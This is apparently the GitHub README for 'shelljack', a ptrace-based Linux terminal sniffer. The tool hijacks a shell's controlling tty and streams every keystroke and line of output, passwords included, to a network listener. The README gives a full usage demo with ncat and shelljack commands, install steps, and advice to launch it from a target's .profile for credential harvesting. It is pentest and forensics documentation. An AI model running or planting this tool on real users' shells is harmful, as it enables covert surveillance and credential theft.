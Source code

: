# shelljack #

_shelljack_ is a [Linux](http://en.wikipedia.org/wiki/Linux) [terminal](http://en.wikipedia.org/wiki/Computer_terminal) sniffer.

**What is a "terminal sniffer"?**

A terminal sniffer is a piece of software that inspects user [I/O](http://en.wikipedia.org/wiki/I/o) as it crosses the terminal. This is similar to a [keystroke logger](http://en.wikipedia.org/wiki/Keystroke_logging), but in addition to reporting all of the keystrokes put into the terminal, _shelljack_ also reports all of the data returned back out through the terminal.

**Is it a [kernel module](http://en.wikipedia.org/wiki/Kernel_module)?**

No. _shelljack_ works entirely in [user space](http://en.wikipedia.org/wiki/User_space).

**What is "shelljacking"?**

This is the term I use to describe a very specific type of terminal sniffing attack. _shelljack_ performs a [pseudo-terminal](http://en.wikipedia.org/wiki/Pseudo_terminal) [mitm attack](http://en.wikipedia.org/wiki/Man-in-the-middle_attack). It will happily target any process, but it is designed to be used against a [session leader](http://linux.die.net/man/7/credentials), which usually means a users [shell](http://en.wikipedia.org/wiki/Unix_shell). It's also important to note that a successful shelljacking means you are now embedded in the traffic flow between user and their shell. *You will be sniffing all of the traffic down the line, including child processes and ssh sessions to other hosts!*

**That's awesome! [1337 h4X0rZ rUL3!!](http://hackertyper.com/)**

While I do think it's pretty neat, this really isn't ["hacking"](http://en.wikipedia.org/wiki/Hacker_%28computer_security%29). There are no exploits here. _shelljack_ takes advantage of Linux [deep magic](http://lxr.linux.no/#linux+v3.9.6/kernel/ptrace.c) that, while often not well understood, is completely legitimate. In order to shelljack a target, you will need the appropriate permissions to do so. 

While this may not be a "[sploit](http://en.wikipedia.org/wiki/Sploit)", it is a very handy tool designed to empower [pentesters](http://en.wikipedia.org/wiki/Pentester), [forensic analysts](http://en.wikipedia.org/wiki/Computer_forensics), and educators.

**Do I need to be root to use it?**

No. You need "appropriate permissions" in order for it to work. That means you will either need to be root, or the uid of the target process. 

**When would I ever need this?**

* As a pentester who has gained execution as a user, you can now shelljack that user for further reconnaissance and credential harvesting.
* As a forensic analyist, you can eavesdrop on the user who is the target of your investigation (after you've recieved the appropriate authority to do so from the heads of Security, Legal, and HR, of course.)
* As a sysadmin, or other educator, to publicly demonstrate why sane file permissions are important. 

**How does it work?**

_shelljack_ is a [terminal emulator](http://en.wikipedia.org/wiki/Terminal_emulator) that uses ptrace to insert itself between the shell and it's [controlling tty](https://github.com/emptymonkey/ctty).

**Tell me more of this [deep magic](http://en.wikipedia.org/wiki/Deep_magic) of which you speak!**

[ptrace](http://en.wikipedia.org/wiki/Ptrace):
ptrace is the debugging interface provided by the Linux kernel. It's wonderful at forcing you to *really* understand the inner workings of a Linux process when you try to use it. The best intro I've seen comes in the form of two articles by Pradeep Padala dating back to 2002: [Playing with ptrace, Part I](http://www.linuxjournal.com/article/6100) and [Playing with ptrace, Part II](http://www.linuxjournal.com/article/6210)

[tty](http://en.wikipedia.org/wiki/Tty_%28Unix%29):
A solid understanding of tty fundamentals is necessary to fully understand and leverage the [command line](http://en.wikipedia.org/wiki/Command_line). This is also a needed skill set for understanding shelljacking. The best tutorial on this topic is easily [The TTY demystified](www.linusakesson.net/programming/tty/) by [Linus Åkesson](http://www.linusakesson.net/pages/me.php). 

**What Architectures / OSs will this run on?**

Currently, _shelljack_ will only run on x86_64 Linux. Since _shelljack_ uses the Linux ptrace interface to inject syscalls into a target process using their assembly form, nothing here is portable. That said, check out my other project, [_ptrace_do_](https://github.com/emptymonkey/ptrace_do). If I get around to supporting _ptrace_do_ for other architectures, then porting _shelljack_ shouldn't be too hard.

# Usage #

	empty@monkey:~$ shelljack --help
	usage: shelljack LISTENER:PORT PID
		LISTENER:	Hostname or IP address of the listener.
		PORT:	Port number that the listener will be listening on.
		PID:	Process ID of the target process.

In order to properly mitm the [signals](http://en.wikipedia.org/wiki/Unix_signal) generated by the controlling tty, _shelljack_ must detach from it's original launch terminal. Because of this, you'll need to set up a listener to catch its eavesdropped output. [Netcat](http://en.wikipedia.org/wiki/Netcat) works nicely for this. (We've chosen localhost and port 9999 here, but _shelljack_ will happily use any [address](http://linux.die.net/man/3/getaddrinfo) that the machine will route.)

Let's do a demo. I'll be running [tty](http://linux.die.net/man/1/tty) in these examples to demonstrate which terminal I'm running various commands in.

Start by setting up a listener:

	empty@monkey:~$ tty
	/dev/pts/0
	empty@monkey:~$ while [ 1 ]; do ncat -l localhost 9999; done

Since this is a demo, let's also examine the shell we want to target:

	empty@monkey:~$ tty
	/dev/pts/3
	empty@monkey:~$ echo $$
	19716
	empty@monkey:~$ ls -l /proc/$$/fd
	total 0
	lrwx------ 1 empty empty 64 Jun 16 16:17 0 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:18 1 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:18 2 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:18 255 -> /dev/pts/3

Now, launch shelljack against the target pid:

	empty@monkey:~$ tty
	/dev/pts/2
	empty@monkey:~$ shelljack localhost:9999 19716

Back at the listener, you will now see all the I/O in real time as the user interacts with the shelljacked shell. For further evidence of this, lets go examine the target shell again:

	empty@monkey:~$ ls -l /proc/$$/fd
	total 0
	lrwx------ 1 empty empty 64 Jun 16 16:17 0 -> /dev/pts/4
	lrwx------ 1 empty empty 64 Jun 16 16:18 1 -> /dev/pts/4
	lrwx------ 1 empty empty 64 Jun 16 16:18 2 -> /dev/pts/4
	lrwx------ 1 empty empty 64 Jun 16 16:18 255 -> /dev/pts/4
	empty@monkey:~$ ps j -u empty | grep $$
	19714 19716 19716 19716 pts/4    19867 Ss    1000   0:00 -bash
	    1 19782 19782 19782 pts/3    19782 Ss+   1000   0:00 shelljack localhost 9999 19716

We can see that _shelljack_ has successfully taken over /dev/pts/3, and is serving up /dev/pts/4 for the target shell to consume. It's now in place to mitm the traffic, happily forwarding you a copy of everything it sees, including the input which normally wouldn't be ["echoed"](http://linux.die.net/man/1/stty) to the terminal (e.g. passwords).

Also note, _shelljack_ was designed with the ability to attack the shell that is calling it. This makes it ideal for launching it out of the targets login [configuration files](http://en.wikipedia.org/wiki/Unix_shell#Configuration_files_for_shells). (e.g. .profile)

	empty@monkey:~$ ls -l /proc/$$/fd
	total 0
	lrwx------ 1 empty empty 64 Jun 16 16:33 0 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:33 1 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:33 2 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:33 255 -> /dev/pts/3
	empty@monkey:~$ shelljack localhost:9999 $$
	empty@monkey:~$ ls -l /proc/$$/fd
	total 0
	lrwx------ 1 empty empty 64 Jun 16 16:33 0 -> /dev/pts/4
	lrwx------ 1 empty empty 64 Jun 16 16:33 1 -> /dev/pts/4
	lrwx------ 1 empty empty 64 Jun 16 16:33 2 -> /dev/pts/4
	lrwx------ 1 empty empty 64 Jun 16 16:33 255 -> /dev/pts/4

# Prerequisites #

To help with the heavy lifting, I've written two supporting libraries that are both needed by _shelljack_:

* [_ptrace_do_](https://github.com/emptymonkey/ptrace_do): A ptrace library for easy syscall injection in Linux.
* [_ctty_](https://github.com/emptymonkey/ctty): A library and tool for discovering and mapping Controlling TTYs in Linux.

In addition, I've also written another tool that isn't needed by _shelljack_, but helps with tty forensics. 

* [_dumb_](https://github.com/emptymonkey/dumb): A simple tool for stripping control characters and escape sequences from terminal output in Unix/Linux.

# Installation #

	git clone git@github.com:emptymonkey/ptrace_do.git
	cd ptrace_do
	make
	cd ..

	git clone git@github.com:emptymonkey/ctty.git
	cd ctty
	make
	cd ..

	git clone git@github.com:emptymonkey/shelljack.git
	cd shelljack
	make

# Limitations #

As noted in the [tty_ioctl](http://linux.die.net/man/4/tty_ioctl) [manpage](http://en.wikipedia.org/wiki/Manpage), an existing process can only switch controlling ttys if it is a session leader. Because of this, while _shelljack_ will be successful against the shell itself, any *existing* child processes will not be able to switch with it. They won't usually die during the shelljacking, but their I/O will act strangely if it relies on the tty. It is best to target shells that are semi-idle, or attack them during the login process.

